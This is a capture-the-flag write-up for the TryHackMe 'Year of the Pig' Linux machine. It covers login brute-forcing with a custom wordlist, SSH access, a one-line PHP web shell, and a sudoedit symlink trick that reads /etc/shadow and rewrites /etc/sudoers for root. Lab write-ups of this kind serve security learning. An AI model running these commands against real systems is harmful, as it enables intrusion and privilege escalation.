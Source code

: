 # Year of the Pig Writeup | TryHackMe



<pre>
</pre>



- OS: _Linux_
- Difficulty: _Hard_
- Creator: [_MuirlandOracle_](https://tryhackme.com/p/MuirlandOracle)
- TryHackMe: https://tryhackme.com/

<pre>
</pre>

Year of the Pig is rated as a hard linux machine. First step needed some custom wordlist generation and a custom script to brute force the password of the user then some basic linux privilege escalation that we are gonna get into.



## Nmap



![Image](https://i.imgur.com/KZNXFNL.png)



We can see that there are just 2 port open, those are 22 for SSH and 80 for http. And right from that nmap scan we can already see we have a possible username which is Marco. But anyways we go on to enumerate port 80 more.

## Web

On the front page we can see that Marco talks about planes a lot so we can surely say he loves them.

![Image](https://i.imgur.com/EjEg6iB.png)

Running gobuster we just get `/login.php` and `/api` that are interesting. Going to `/login.php` and trying some default credentials we get something interesting in the response.

![Image](https://i.imgur.com/psMLDc6.png)

It says `Remember that passwords should be a memorable word, followed by two numbers and a special character` , so that is hinting towards brute force of the login page, and also we need a custom wordlist. So to generate the wordlist as the login page says we need the following format:

```
{Memorable Word}{2 Numbers}{A special character} # For an example Marco99!
```

We can easily just guess the special character and the 2 numbers as the numbers go from 00 to 100, but we need a memorable word, and if we remember from earlier, Marco loves planes and talks about them a lot on the main page, so lets get some words from the page.

![Image](https://i.imgur.com/DpFS0QH.png)

Some words stand out, like the ones `Savoia`, `Macchi` and `Curtiss` so we should remember these three. Then I go on to create a python script to help me generate my custom wordlist:

![Image](https://i.imgur.com/j7ukYP8.png)

So for the input to the script we need to give it a wordlist containing just some basic words and then we give it the name to output the wordlist to.  The input wordlist I will use would look something like this:

![Image](https://i.imgur.com/iaBwpq9.png)

I named the file `input.wordlist`. Then we can run the python script with the syntax:

```
python3 generate-wordlist.py input.wordlist custom_wordlist.out
```

After running that command we get a file `custom_wordlist.out` that we can use as the wordlist to brute force the login password. But now we need to find a way to brute force the login page. We can use `BurpSuite` to see how does the web login page make a request towards the back-end. When intercepting the login request we can see the following:

![Image](https://i.imgur.com/oEdsI7o.png)

We see that it makes a POST request to /api/login with json in the data, that json contains username and the password, but that password is not a clear-text password, it is actually a md5 hash of the password we entered. So now I wrote yet another python script but this time to brute force the credentials. My script looks like this:

![Image](https://i.imgur.com/OYRfC5g.png)

The script takes 3 arguments, the first one is the IP of the machine, then it takes the wordlist to use and then it takes the username to brute force. The script is just going through each password in the wordlist and md5 hashing it then sending a POST request to /api/login with the json data. So when we run this script with the wordlist we generated earlier we get a hit:

![Image](https://i.imgur.com/UiTYbJQ.png)

After we login we see that we can run system commands, but commands seem very limited, so there is no way I could get a reverse shell from there, and later when we look at the files we see that actually there are just 5/6 certain commands we can run and that's it, so we can try SSH with the credentials we right now have which are `marco:savoia21!`.

![Image](https://i.imgur.com/bimDPAD.png)

And we successfully get into the box as user  `marco`.

## Privilege escalation

After some basic privilege escalation attempts, like `sudo -l`, finding SUID binaries with the command:

```
find / -perm -4200 -type f 2>/dev/null
```

we don't seem to find anything, but then enumerating the filesystem we find an interesting file inside /var/www which is named `admin.db` but only user `www-data` can read it, so we need to get www-data somehow. And if we remember from earlier when running the command `id` we can see that we are in the `web-developers` group, so that hints that we can probably write files inside /var/www/html, so I try just that:

```
echo '<?php system($_GET['c']); ?>' > /var/www/html/ryaagard.php && chmod 777 /var/www/html/ryaagard.php
```

After running that command we wrote a file called `ryaagard.php` inside the /var/www/html and then also ran `chmod 777` on it so any user can read the file and write to it. Then going over to `http://<MACHINE-IP>/ryaagard.php?c=id` we get code execution!

![Image](https://i.imgur.com/e6tW8dv.png)

So now we can read the `admin.db` file we found, I transfer it to my machine in the following screenshot and then open it in sqlite3:

![Image](https://i.imgur.com/ftWC7cr.png)

We can see there is a hash for curtis user, or there is 2 for some reason, anyways we take both to crackstation and 1 of those hashes gives us a clear-text password.

![Image](https://i.imgur.com/msxREM1.png)

And the new credentials we found are `curtis:Donald1983$`, with those we can run `su - curtis` on `marco` SSH session to get to `curtis` user.

As user `curtis` we run `sudo -l` and we get the following output:

![Image](https://i.imgur.com/8nnPaFG.png)

We can run `sudoedit /var/www/html/*/*/config.php` as any user on the box. But as `curtis` we can't write to /var/www/html, but `marco` can. So we run the next command as `marco`:

```
cd /var/www/html/ && mkdir -p temp/temp
```

to create the 2 directories. After that we think of what can we actually do with this sudoedit as root, and I remembered symbolic links. Basically we create a symbolic link called `config.php` inside /var/www/html/temp/temp/ and link it to /etc/shadow, and we can do that by running the following command as `marco` user:

```
ln -s /etc/shadow /var/www/html/temp/temp/config.php
```

After we ran that command we go over to user `curtis` and run:

```
sudoedit /var/www/html/temp/temp/config.php
```

And we see the contents of /etc/shadow!

![Image](https://i.imgur.com/m0ZupYe.png)

To get root user I run to following commands:

(user `marco`)

```
ln -s /etc/sudoers /var/www/html/temp/temp/config.php
```

(user `curtis`)

```
sudoedit /var/www/html/temp/temp/config.php
```

And then we add this line anywhere in the file:

```
curtis ALL=(ALL) NOPASSWD:ALL
```

and save that file.

Then we can just run `sudo bash` as user `curtis`.

![Image](https://i.imgur.com/VnMHOaw.png)

And we successfully root the machine!

<pre>
</pre>

## Contact

- Twitter: [_ryaagard_](https://twitter.com/ryaagard)
- Discord: *ryaagard#5027*

